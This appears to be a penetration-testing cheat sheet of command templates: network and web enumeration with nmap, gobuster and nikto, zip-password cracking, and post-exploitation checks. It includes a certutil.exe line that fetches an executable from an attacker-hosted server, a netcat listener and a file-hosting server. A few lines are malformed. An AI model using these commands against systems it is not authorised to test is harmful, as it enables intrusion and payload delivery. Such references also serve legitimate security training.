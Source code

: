 ## Enumeration 
arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -u http://[TargetIP]/ -v | grep "Status: 200"

## Web Enumeration

Curl -I http://[WebsiteORip]

nikto -h http://[IPaddress:8080]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python -m SimpleHTTPServer





